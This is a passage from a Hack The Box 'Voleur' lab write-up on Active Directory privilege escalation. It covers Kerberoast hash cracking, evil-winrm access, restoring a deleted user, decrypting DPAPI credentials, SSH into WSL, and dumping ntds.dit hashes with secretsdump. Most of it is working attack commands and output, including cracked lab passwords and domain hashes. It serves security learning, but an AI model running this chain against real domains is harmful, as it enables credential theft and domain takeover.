LDAP        10.10.11.76     389    DC.voleur.htb    $krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$0c68df20b694e9090c09517c0bc6979f$ac3c5c58ada63611a520f96e0cbcbcc520fa80318b46a1090029a35b60f035e1b09f37811dafc325b0d3b7baead27fece64ef17cbd89020250a440afef8501b7fdb9476a8d6651eee0ff5a080a86a803755a64dcd749fc15901e7f21b6b13012d5534d3e129ea4ae9219ec0a9470595833a015a7656f232cd301fc9137a62dc0c252e2943c71277c8a3c7c08ec1b041df9dd48f3e5235fd5efe2c23c9ec7f0c11a41acf443e2e2ddbe6bbfb262a6d9a6cdd8a2f232fe4957bbbc9e3509868cb3937284dac66d36d4ef526f4aac292e817dcca2cbf0e01ae43cc36618532ed4f7bbfe3587777cb9d3a7ed5da04b76d0f8a2df9fe30ac8a6342fce4c5024a9c5d5880affc67878514d04bbbe8f93dfe8c13314b6909c1b69d28fb4de7755a3f59e15990dfeb87ce052d784715a44f85efb4215053dbc1e3cf3e556d92bbe84ed9f0404d00cc108d35e389bf927ff8d59f3221dc3011b3739f57dc884047659d08729aecf071e100aa0abd7dd50c227f46bfe283c0a1bdfd8bb3f8a7615d3d93fcd22aa0ea6b4e5208cb5602f27bd3be3dca6e1a79e8df7d1ea07cffb652184c196a46446bda4ff40bbedabac8d5be3ed2ebab48f16f35b6d28179261e7a821bc4791b72dcae6b21403bada808fb624c94826164aa5bd313c70e7f0d8492b495204fb60f495640f038556ae1cd7362bed7a1a34519b6ede989a8688c0769fc754073a3f34679d9db65a4f330f180f274a3f5bd518537870c6a9a506010f5a8be628cf4773304c65752e115f04654f8a0391733d564d7aafe14926e817ea739d76cf1c8c683e2d865b7c828666039f1a8db16f82d044d462cee590cebba000cd5f178288d3a8ed8e16f1a686c9f65e362f26e266f28ca2518b318f06d5b26a0657952e54ab6c5d11bcbcf4b430afeffac420a1e4b493a9d4f387db153d9f34a751f169fe055056853eeccb237379d5c2e7cb492ae38cca2e9c0a0136a6e3255423e2ce730a3189a0cec00a58c34407681913cf027e355421e19d3082ab18767303cf839afc37ff24888ef86f65c84b48a03a90dbc38900ed23c03d97904cb1ca78b00a29b5483761e4f914eaa21ff58ec579fa2f80aee4159a528c6a66d58f1feb200d58814ce18d1032f206997b45b406aabc870e70968043cafdde091c7f7430ff9cc72e3f0213c88370f46708def6ba88c9081433fb7c54f6892341a90af60cd9d47ac26e33675db6b4cb2c3287170d6b84639f075b39a8264c44701a6edf68bd252b77c62e35b2a1cf06fc833aaebff60cb01b69f7fd6d41b39d62ccc4a1160612485928ee60058de2c4e049d7129caaae47af2d5d798f43f7c6b98bf534ec6e60f1ab13d0e3923eb33b9aa2fc59f3cb029ab287e2d6bd578e45d30d60ad5460cbaec44241d600e661b7960699b246e25276e5669eb26ae71e7446f2c35f15eaaad4c563f73eff7e9fe819094acaa03553651d   
```

## Cracking the TGS

Once again using `john` we recover the **svc_winrm** account password 

```shell
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt roasted.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
AFireInsidedeOzarctica980219afi (?)     
1g 0:00:00:03 DONE (2025-10-11 14:30) 0.2680g/s 3075Kp/s 3075Kc/s 3075KC/s AHARRI2..AEGIS1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Request a TGT for **svc_winrm** and use `evil-winrm`

```shell
getTGT.py -dc-ip 10.10.11.76 voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_winrm.ccache
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> more ../Desktop/user.txt
15e8cee83636f89...
```

# Root Flag

As mentioned earlier, what is really interesting (and somewhat unrealistic, in my opinion) is that we have the password of a **deleted user**. That led me to wonder if this user account could be **recovered**, which led me looking into the **Object Lifecycle** and **Recycle Bin** in Active Directory.

---

## Active Directory Recycle Bin

The **Active Directory Recycle Bin** was introduced in **Windows Server 2008 R2** to improve the management of deleted objects and extend their recoverability period. In an AD environment, when an object is deleted, it is **logically deleted** and moved to **CN=Deleted Objects** for a fixed time before being permanently removed.  

Depending on the phase of the **Object Lifecycle** and which attributes are configured, the object may be **recoverable** or **irretrievable**.

---

### Object Lifecycle Attributes

| Attribute | Introduced In | Exists On / Location | Description |
|------------|---------------|----------------------|--------------|
| **isDeleted** | Windows 2000 | Exists on every object | Indicates that an object has been deleted but can still be restored. |
| **isRecycled** | Windows Server 2008 R2 | Exists on every object once it has been recycled | Indicates that an object has been deleted and is no longer recoverable. |
| **msDS-deletedObjectLifetime** | Windows Server 2008 R2 | Set on **CN=Directory Service, CN=Windows NT, CN=Services, CN=Configuration, DC=DOMAIN, DC=COM** | Defines how long a deleted object remains restorable. |
| **tombstoneLifetime** | Windows 2000 | Set on **CN=Directory Service, CN=Windows NT, CN=Services, CN=Configuration, DC=DOMAIN, DC=COM** | Defines how long a deleted object remains in AD before being permanently removed. |

---

### AD Recycle Bin Enabled (Windows Server 2008 R2 and later)


1. A user account in the `naruto.jp` domain is deleted by an administrator.  

2. Deleted objects are first moved to **CN=Deleted Objects, DC=naruto, DC=jp** with the attribute `isDeleted` set to **TRUE**.  

3. This deleted object is still recoverable and maintains its attribute data for a fixed time period defined by the **Deleted Object Lifetime (DOL)** which is controlled by the `msDS-deletedObjectLifetime` attribute (defaults to the **Tombstone Lifetime**, 180 days).

4. After the **DOL** expires, the deleted object remains in **CN=Deleted Objects, DC=naruto, DC=jp**, and the `isRecycled` attribute is set to **TRUE**, marking it as **non-recoverable** and stripping most of its attribute data. Its only purpose now is to notify other domain controllers that this object has been deleted.  

5. After the **Tombstone Lifetime (TSL)** expires, the **garbage collector** which runs every 12 hours on domain controllers permanently deletes objects that have exceeded their TSL.


<div style="text-align:center">
  
</div>

### Before Windows Server 2008 R2 or AD Recycle Bin disabled


1. A user account in the `naruto.jp` domain is deleted by an administrator.  

2. Deleted objects are moved to **CN=Deleted Objects, DC=naruto, DC=jp** with the attribute `isDeleted` set to **TRUE**. Objects are called `Tombstoned objects` and are retrievable with very few of their attribute data maintained (SID, SIDHistory, nTSecurityDescriptor).

3. The Tombstoned object is conserved for the lifetime period 60 days for Windows Server 2000/2003 and 180 days for Windows 2003 SP1/2008.

4. After the **Tombstone Lifetime** expires, the **garbage collector** which runs every 12 hours on domain controllers permanently deletes objects that have exceeded their TSL.

<div style="text-align:center">
  
</div>

## Restoring deleted account

```shell
bloodyAD --host dc.voleur.htb -d "voleur.htb" -u 'svc_ldap' -k get search --base 'CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb' --filter '(objectClass=*)' --attr msDS-DeletedObjectLifetime

distinguishedName: CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb
msDS-DeletedObjectLifetime: 7300

distinguishedName: CN=Query-Policies,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb

distinguishedName: CN=Default Query Policy,CN=Query-Policies,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb

distinguishedName: CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb

distinguishedName: CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb

distinguishedName: CN=Privileged Access Management Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb
```

Ad bin is enabled since the `msDS-DeletedObjectLifetime` is set to 7300. Using bloodyAD we can search for deleted users.

```shell
# DAP control OID 1.2.840.113556.1.4.2064 (shows deleted, tombstoned, and recycled)
bloodyAD --host dc.voleur.htb  -d "voleur.htb" -u 'svc_ldap'  -k get search -c '1.2.840.113556.1.4.2064' --filter '(isDeleted=TRUE)' --attr name,isDeleted,isRecycled

distinguishedName: CN=Deleted Objects,DC=voleur,DC=htb
isDeleted: True
name: Deleted Objects

distinguishedName: CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
isDeleted: True
name: Todd Wolfe
DEL:1c6b1deb-c372-4cbb-87b1-15031de169d
```

Great user **Todd Wolfe** is has only the attribute `isDeleted` set. That means, it is still recoverable.

```shell
bloodyAD --host dc.voleur.htb -d "voleur.htb" -u 'svc_ldap' -k set restore Todd.Wolfe
[+] Todd.Wolfe has been restored successfully under CN=Todd Wolfe,OU=Second-Line Support Technicians,DC=voleur,DC=htb
```

Next, I wanted to check if **Todd** could give us a new path through `bloodhound`

```shell
bloodhound-python -u Todd.Wolfe -p NightT1meP1dg3on14  -d voleur.htb -ns 10.10.11.76 -c All --zip  
```

<div style="text-align:center">
  
</div>

## SMB for Second-Line Support

While **Todd** has no permissions over other objects, he is a member of **Second-Line Support Technicians**. Up until now, we had access to **ryan** who was a a **First-Line Support**.
Going back to **SMB shares**

```shell
getTGT.py -dc-ip 10.10.11.76 voleur.htb/Todd.Wolfe:NightT1meP1dg3on14
export KRB5CCNAME=/home/eid3t1c/Desktop/voleur/Todd.Wolfe.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Todd.Wolfe.ccache
```

```shell
impacket-smbclient -k 'VOLEUR.HTB/Todd.Wolfe@dc.voleur.htb'
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 Second-Line Support
# cd Second-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 Archived Users
# cd Archived Users
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:16 2025 todd.wolfe
# cd todd.wolfe
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:16 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 3D Objects
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 AppData
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Contacts
drw-rw-rw-          0  Thu Jan 30 09:28:50 2025 Desktop
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Documents
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Downloads
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Favorites
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Links
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Music
-rw-rw-rw-      65536  Wed Jan 29 10:13:06 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
-rw-rw-rw-     524288  Wed Jan 29 07:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Wed Jan 29 07:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Wed Jan 29 07:53:07 2025 ntuser.ini
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Pictures
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Saved Games
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Searches
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Videos
```

We have a backup of **Todd**'s machine. Here is the point where I am 'lucky' since I recently played another machine where I had to dealt with `DPAPI` (Data Protect API). 

## Data Protection API (DPAPI)

### What is DPAPI

DPAPI (Data Protection Application Programming Interface) is a built-in component in **Windows 2000** and after, to secure and store data. Using the API functions `CryptProtectData()` & `CryptUnprotectData()` and **master keys** tied to a specific **user** or **system** applications can encrypt and decrypt stored data.

- All chronium based browsers store usernames, passwords and cookies using DPAPI
- Windows Credential Manager
- Wi-Fi passwords
- Third party tools like OpenVPN, iCloud, VMware Workstation, FortiClient or Dropbox
- Windows Hello Credentials

They’re most commonly found under ```%LocalAppData%\Roaming\Microsoft\Credentials``` and ```%RoamingAppData%\Roaming\Microsoft\Credentials```, but any Windows or third-party application can create and store its own blobs anywhere in the user profile.

## What is a master key

A **Master Key** is **512 bits of random data**, combined with **additional parameters** (e.g., salt, PBKDF2 iterations) to generate a **session key** used to encrypt **DPAPI (Data Protection API)** blobs. The masterkeys are encrypted as well depending on user or authority they belong.

---

| **Authority Type** | **Master Key Location** | **Common Encrypted Data Blob Paths** | **Encryption (how the Master Key is protected)** | **Additional Information** |
|--------------------|--------------------------|-------------------------------------|--------------------------------------------------|-----------------------------|
| **Local Machine** | `%WINDIR%\System32\Microsoft\Protect\S-1-5-18\` | `C:\ProgramData\` | Encrypted with the **LSA DPAPI secret key**  | Used when data encryption is scoped to the local machine (machine-level protection)
| **System Users** | `%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User\` | - `C:\Windows\System32\config\systemprofile\AppData\`<br>- `C:\Windows\System32\config\LocalService\AppData\`<br>- `C:\Windows\System32\config\NetworkService\AppData\` | Encrypted with the **LSA DPAPI secret key** | Used for processes scoped to a user but running under **System**, **LocalService**, or **NetworkService** |
| **Local Users** | `C:\Users\<User>\AppData\Roaming\Microsoft\Protect\<SID>\` | `C:\Users\<User>\AppData\` | Encrypted with the **user’s password** hash and his SID| Used when a **local user account** encrypts personal data such as browser credentials, saved Wi-Fi passwords, or user-specific application secrets |
| **Domain Users** | `C:\Users\<User>\AppData\Roaming\Microsoft\Protect\<SID>\` | `C:\Users\<User>\AppData\` | Encrypted with the **user’s current Active Directory password** hash and his SID | Used when a **domain user** encrypts data tied to their Active Directory credentials |

---

## Preferred file

A DPAPI master key has an expiration date, but it remains stored in the SID path to allow decryption of older data. To identify the active key, Windows uses a `Preferred` file, which stores the GUID of the current master key along with its expiration time.


```shell
/Users/name/AppData/Roaming/Microsoft/Protect/S-1-5-21-1166439285-2144050657-3485152021-1001$ xxd Preferred
00000000: 8293 9408 4f13 634c b93c ce52 efc0 aa88  ....O.cL.<.R....
00000010: f079 79a8 05b9 db01                      .yy.....
```

### Converting to GUID Format

The first 16 bytes (32 hex) is the guid of the currently used master key in a mix of little-big endian

1. **Extract the first 16 bytes**
   ```
   8293 9408 4f13 634c b93c ce52 efc0 aa88
   ```

2. **Format as GUID structure (4-2-2-2-6)**
   ```
   82939408-4f13-634c-b93c-ce52efc0aa88
   ```

3. **Convert the first three chunks from Little-Endian to Big-Endian**
   - `82939408` → `08949382`
   - `4f13` → `134f`
   - `634c` → `4c63`

4. **Result: Currently used master key GUID**
   ```
   08949382-134f-4c63-b93c-ce52efc0aa88
   ```

### Master key expiration time

The last 8 bytes (16 hex) is the expiration time

1. **Extract the first 16 bytes**
```
80f4 98f4 c27f dc01
```
2. **Convert to Big Endian**
```
10bd9b508a97970f
```
3. Interpret it as Windows Lifetime

```python
import datetime

ft = 0x10bd9b508a97970f
epoch = datetime.datetime(1601, 1, 1)
dt = epoch + datetime.timedelta(microseconds=ft / 10)
print(dt)
# 2025-04-29 12:53:09.007000
```

That is the currently used user key used in our scenario


## Decrypting DPAPI

In our case, we can recover the **User** master key and the credentials inside `/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials` and 
`/Second-Line Support/Archived Users/todd.wolfe/AppData/Local/Microsoft/Protect` and decrypt them with the masterkey using **todd**'s SID and password

```shell
# cd /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-         24  Wed Jan 29 07:53:08 2025 CREDHIST
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 S-1-5-21-3927696377-1337352550-2781715495-1110
-rw-rw-rw-         76  Wed Jan 29 07:53:08 2025 SYNCHIST
# cd S-1-5-21-3927696377-1337352550-2781715495-1110
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-        740  Wed Jan 29 08:09:25 2025 08949382-134f-4c63-b93c-ce52efc0aa88
-rw-rw-rw-        900  Wed Jan 29 07:53:08 2025 BK-VOLEUR
-rw-rw-rw-         24  Wed Jan 29 07:53:08 2025 Preferred
# get 08949382-134f-4c63-b93c-ce52efc0aa88
# cd ..
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Credentials
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Crypto
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Internet Explorer
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Network
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Protect
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Spelling
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 SystemCertificates
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Vault
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Windows
# cd Credentials
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-        398  Wed Jan 29 08:13:50 2025 772275FAD58525253490A9B0039791D3
# mget *
[*] Downloading 772275FAD58525253490A9B0039791D3
```

### Decrypted DPAPI master key 

```shell
# Decrypt Master key
dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

### Decrypted DPAPI blob

```shell
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```


## SMB for Third-Line support

New set of credentials.

```
jeremy.combs : qT3V9pLXyN7W4m
```

Now, we could see in `bloodhound` if there was a path we could follow but I thought of checking the **SMB shares** once again because I knew he was a **Third-Line support** from previous Bloodhound investigestion

```shell
getTGT.py -dc-ip 10.10.11.76  voleur.htb/jeremy.combs:qT3V9pLXyN7W4m
export KRB5CCNAME=/home/eid3t1c/Desktop/voleur/jeremy.combs.ccache
impacket-smbclient -k dc.voleur.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in jeremy.combs.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
Finance
HR
IPC$
IT
NETLOGON
SYSVOL
# use HR
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# use Finance
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Thu Jan 30 11:11:29 2025 Third-Line Support
# cd Third-Line Support
# ls
drw-rw-rw-          0  Thu Jan 30 11:11:29 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-       2602  Thu Jan 30 11:11:29 2025 id_rsa
-rw-rw-rw-        186  Thu Jan 30 11:07:35 2025 Note.txt.txt
# mget *
[*] Downloading id_rsa
[*] Downloading Note.txt.txt
```
## SSH 

A private key 

```shell
ssh-keygen -y -f id_rsa 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCoXI8y9RFb+pvJGV6YAzNo9W99Hsk0fOcvrEMc/ij+GpYjOfd1nro/ZpuwyBnLZdcZ/ak7QzXdSJ2IFoXd0s0vtjVJ5L8MyKwTjXXMfHoBAx6mPQwYGL9zVR+LutUyr5fo0mdva/mkLOmjKhs41aisFcwpX0OdtC6ZbFhcpDKvq+BKst3ckFbpM1lrc9ZOHL3CtNE56B1hqoKPOTc+xxy3ro+GZA/JaR5VsgZkCoQL951843OZmMxuft24nAgvlzrwwy4KL273UwDkUCKCc22C+9hWGr+kuSFwqSHV6JHTVPJSZ4dUmEFAvBXNwc11WT4Y743OHJE6q7GFppWNw7wvcow9g1RmX9zii/zQgbTiEC8BAgbI28A+4RcacsSIpFw2D6a8jr+wshxTmhCQ8kztcWV6NIod+Alw/VbcwwMBgqmQC5lMnBI/0hJVWWPhH+V9bXy0qKJe7KA4a52bcBtjrkKU7A/6xjv6tc5MDacneoTQnyAYSJLwMXM84XzQ4us= svc_backup@DC
```

and a `.txt` file.

```
cat Note.txt.txt      
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin 
```

So the private key belongs to the **srv_backup** and wsl is supposed to be configured. Now,

```shell
ssh -l 'svc_backup' -p 2222 -i id_rsa voleur.htb
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.4.0-20348-Microsoft x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 11 21:57:29 PDT 2025

  System load:    0.52      Processes:             9
  Usage of /home: unknown   Users logged in:       0
  Memory usage:   38%       IPv4 address for eth0: 10.10.11.76
  Swap usage:     0%


363 updates can be installed immediately.
257 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Jan 30 04:26:24 2025 from 127.0.0.1
 * Starting OpenBSD Secure Shell server sshd                                                                                                                                        [ OK ] 
svc_backup@DC:~$ 
```

Since `WSL` was enabled, the **C** of the machine could be mounted in `/mnt/c` (I am not sure if it is something default). 

```shell
svc_backup@DC:/mnt/c$ ls
ls: cannot access 'DumpStack.log.tmp': Permission denied
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'   Config.Msi                DumpStack.log.tmp   HR   PerfLogs        'Program Files (x86)'   Recovery                     Users     inetpub
'$WinREAgent'   'Documents and Settings'   Finance             IT  'Program Files'   ProgramData           'System Volume Information'   Windows   pagefile.sys
```

For some reason, I chose to ignore the **IT** share that literally is the main character of this HTB machine, and kept wandering for some time.
When I finally realized that I haven't checked that folder I found a **Backup** folder inside containing the **ntds.dit** and **SYSTEM** (realistic af).


```shell
svc_backup@DC:/mnt/c/IT$ ls
'First-Line Support'  'Second-Line Support'  'Third-Line Support'
svc_backup@DC:/mnt/c/IT$ cd Third-Line\ Support/
svc_backup@DC:/mnt/c/IT/Third-Line Support$ cd Backups/
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls
'Active Directory'   registry
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ cd Active\ Directory/
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ ls
ntds.dit  ntds.jfm
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ ls ../registry/
SECURITY  SYSTEM
```

## Secret Dump

We are pretty much done here. We can download those files

```hell
scp -P 2222 -i id_rsa svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit ./ntds.dit
scp -P 2222 -i id_rsa 'svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/System' ./System 
```

And use `secretsdump.py`

```shell
secretsdump.py -ntds ntds.dit -system System LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a78c5a072b0a84065a809976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec648d3670b1b83dd0b5052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5b9b7e1aa2df942dc108f749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:0493398c124f7af8c1184f9dd80c1307:::
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f650443235b2798c72027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92d43a35bdea2b0c18c89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae2cbd5d74b7055b7f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e37717757433b4780079ee9b1d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af4c8667c90d19b286c7af861b10cc
Administrator:des-cbc-md5:459d836b9edcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1fd9144ebddb43221123c44e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee3b2757db16b99ffa087f451782
DC$:des-cbc-md5:64e05b6d1abff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d23a2e98487ae528beb0b6f3712f243eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5e22b0af794abb2402c97d535c211
krbtgt:des-cbc-md5:34ae31d073f86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e31a3e62bb3a55c74743ae76d27b296220b6899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417577cdfc92003ade09833a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:4376f7917a197a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd3f7b98cfcdb3d36fc3b5ad8f6f85ba816cc05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d9383e664e82f74835d5953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf1492604d3a220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a25092bcd772f41d3a87aec938b319d6168c60fd433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73ae6f67d1ab538addadef53066
voleur.htb\lacey.miller:des-cbc-md5:6eef922076ba7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f5992200abb7adad44a91fa06e91185adda6d18bac73cbf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6f3e4fe9fdff6ba8c36e8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1ab0fbfeeaef5776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f8d14a7948bf3054a7988d6d01324813a69181cc44bb5d409786f
